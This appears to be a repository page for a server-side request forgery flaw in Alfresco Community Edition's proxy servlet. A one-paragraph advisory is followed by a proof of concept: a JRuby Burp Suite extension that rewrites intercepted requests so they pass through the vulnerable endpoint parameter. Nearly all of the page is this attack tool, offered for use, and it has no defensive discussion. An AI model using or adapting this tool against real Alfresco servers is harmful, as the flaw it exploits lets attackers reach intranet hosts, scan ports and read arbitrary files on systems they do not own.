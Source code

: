 INFO
----

Server-side request forgery (SSRF) vulnerability in the proxy servlet in Alfresco Community Edition before 5.0.a allows remote attackers to trigger outbound requests to intranet servers, conduct port scans, and read arbitrary files via a crafted URI in the endpoint parameter.

POC
---

    require 'java'
    java_import 'burp.IBurpExtender'
    java_import 'burp.IHttpListener'
    java_import 'burp.IMessageEditorController'

    class BurpExtender
      include IBurpExtender, IHttpListener, IMessageEditorController

      #
      # implement IBurpExtender
      #
      def   registerExtenderCallbacks(callbacks)
          #@HOST_FROM = 'host1.example.org'
          #@HOST_TO = 'host2.example.org'
        # obtain an extension helpers object
        @helpers = callbacks.getHelpers()
        # set our extension name
        callbacks.setExtensionName("Traffic redirector")
        # register ourselves as an HTTP listener
        callbacks.registerHttpListener(self)
      end
      #
      # implement IHttpListener
      #
      def processHttpMessage(toolFlag, messageIsRequest, messageInfo)
        # only process requests
        if (messageIsRequest)

          # get the HTTP service for the request
          httpService = messageInfo.getHttpService()

          request = messageInfo.getRequest()
          @root_path = nil unless request.to_s.lines.first.index('endpoint').nil?

          referer = request.to_s.scan(/Referer: (.*)/)
          referer.flatten!
          referer =referer.first.scan(/(\/alfresco\/.*:\d+\/)(.*)/) rescue []
          root_path = referer.flatten.first
          relative_path = "/#{referer.flatten.last}"
          if @root_path.nil? || @root_path.to_s != root_path
            @root_path =root_path unless root_path.nil?
            @relative_path = relative_path unless root_path.nil?
          end
          puts "INSTANCE_ROOT_PATH: #{@root_path}"
          puts "Instance Relative_PATH: #{@relative_path}"
          puts "ROOT_PATH: #{root_path}"
          puts "Relative_PATH: #{relative_path}"
          puts request.to_s.lines.first
          new_req = request.to_s.sub("/alfresco/","/")
          new_req = request if new_req.nil?
          if new_req.to_s.lines.first.count('/')<3
            print "Single dash "
            puts new_req.to_s.lines.first
            unless root_path == relative_path
              rel = @relative_path.split("/")
              rel[-1] = ""
              new_req = new_req.to_s.sub("/", rel.join('/'))
            end
          end

          new_req = new_req.to_s.sub("/", @root_path)
          print "Final request "
          puts new_req

          messageInfo.setRequest(
            @helpers.stringToBytes(new_req)
          )

          # if the host is HOST_FROM, change it to HOST_TO
          #if (@HOST_FROM == httpService.getHost())
          #    messageInfo.setHttpService(
          #      @helpers.buildHttpService(
          #        @HOST_TO,
          #        httpService.getPort(),
          #        httpService.getProtocol()
          #      )
          #    )
          #end
        end
      ensure
        puts '----------------------'
      end

      #
      # implement IMessageEditorController
      # this allows our request/response viewers to obtain details about the messages being displayed
      #
      def getHttpService()
        return @currentlyDisplayedItem.getHttpService()
      end

      def getRequest()
        return @currentlyDisplayedItem.getRequest()
      end

      def getResponse()
        return @currentlyDisplayedItem.getResponse()
      end

        #
      # getter / setters
        #

      def callbacks
        @callbacks
      end

      def log
        @log
      end

      def requestViewer
        @requestViewer
      end

      def responseViewer
        @responseViewer
      end

      def currentlyDisplayedItem=(currentlyDisplayedItem)
        @currentlyDisplayedItem = currentlyDisplayedItem
      end
    end